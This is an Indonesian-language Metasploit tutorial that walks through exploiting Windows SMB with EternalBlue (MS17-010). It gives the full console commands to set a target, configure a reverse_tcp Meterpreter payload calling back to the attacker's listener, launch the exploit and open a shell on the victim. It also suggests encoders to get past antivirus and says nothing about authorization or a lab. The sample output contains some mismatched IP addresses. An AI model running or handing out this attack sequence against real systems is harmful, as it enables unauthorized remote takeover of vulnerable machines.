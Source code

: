 # Menjalankan Eksploitasi dengan Metasploit Framework

## A. Apa Itu Eksploitasi?

Eksploitasi adalah proses menyerang dan memanfaatkan kerentanan pada sistem target untuk mendapatkan akses tidak sah, baik melalui `shell`, `akses file`, atau `kontrol penuh`.

Dalam Metasploit Framework, eksploitasi dijalankan melalui modul `exploit` + `payload`, misalnya:
- **Exploit**: `exploit/windows/smb/ms17_010_eternalblue`
- **Payload**: `windows/meterpreter/reverse_tcp`

## B. Proses Dasar Eksploitasi

Langkah-langkah umum untuk menjalankan eksploitasi di Metasploit Framework:
1. Pilih dan muat modul exploit
2. Tentukan target (`RHOST`, `RPORT`)
3. Pilih payload
4. Konfigurasi payload (`LHOST`, `LPORT`, `dll`)
5. Jalankan exploit
6. Kelola sesi yang terbuka (jika berhasil)

## C. Contoh: Eksploitasi SMB dengan EternalBlue (MS17-010)

### 1. Jalankan Metasploit:

   ```
   msfconsole
   ```

   Tunggu sampai muncul prompt seperti ini:

   ```
   msf6 >
   ```

### 2. Cari Exploit yang Sesuai:

   ```
   search eternalblue
   ```

   Contoh hasil:

   ```
   exploit/windows/smb/ms17_010_eternalblue
   ```

### 3. Gunakan Exploit:

   ```
   use exploit/windows/smb/ms17_010_eternalblue
   ```

### 4. Lihat Opsi Konfigurasi:

   ```
   show options
   ```

   Hasil output-nya seperti ini:

   ```
   msf6 exploit(windows/smb/ms17_010_eternalblue) > options 

   Module options (exploit/windows/smb/ms17_010_eternalblue):

      Name           Current Setting  Required  Description
      ----           ---------------  --------  -----------
      RHOSTS                          yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
      RPORT          445              yes       The target port (TCP)
      SMBDomain                       no        (Optional) The Windows domain to use for authentication. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
      SMBPass                         no        (Optional) The password for the specified username
      SMBUser                         no        (Optional) The username to authenticate as
      VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.
      VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target. Only affects Windows Server 2008 R2, Windows 7, Windows Embedded Standard 7 target machines.


   Payload options (windows/x64/meterpreter/reverse_tcp):

      Name      Current Setting  Required  Description
      ----      ---------------  --------  -----------
      EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
      LHOST     192.168.1.42     yes       The listen address (an interface may be specified)
      LPORT     4444             yes       The listen port


   Exploit target:

      Id  Name
      --  ----
      1   Windows 7



   View the full module info with the info, or info -d command.
   ```
   
### 5. Setting Target dan Payload:

   ```
   set RHOSTS 192.168.1.10
   set RPORT 445
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST 192.168.1.5
   set LPORT 4444
   ```

### 6. Jalankan Exploit:

   ```
   exploit
   ```

   Kalu berhasil output-nya akan sepertin ini:

   ```
   [*] Sending stage (203846 bytes) to 192.168.1.10
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [+] 192.168.1.45:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
   [*] Meterpreter session 2 opened (192.168.1.5:4444 -> 192.168.1.10:49158) at 2025-05-07 20:27:03 +0700

   meterpreter > 
   ```

   Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

   1. Melihat informasi sistem target:

      ```
      sysinfo
      ```

   2. Menampilkan User ID (UID):

      ```
      getuid
      ```

   3. Membuka command shell (cmd.exe) dari mesin korban:

      ```
      shell 
      ```

## D. Troubleshooting Umum

| Masalah | Solusi |
|:--:|:--:|
| Tidak ada sesi yang terbuka	| Cek firewall, antivirus, atau salah setting `RHOST/LHOST` |
| Payload tidak terkirim | Gunakan encoder atau coba port lain |
| exploit stuck | Gunakan `set VERBOSE true` untuk debug |

## E. Kesimpulan

Eksploitasi di Metasploit Framework memerlukan:
1. Pemahaman modul dan payload
2. Konfigurasi parameter yang akurat
3. Kesabaran dan analisa ketika exploit gagal

> Dengan latihan dan memahami pola kerja eksploitasi, kamu bisa mengeksekusi serangan yang lebih kompleks dan efisien.

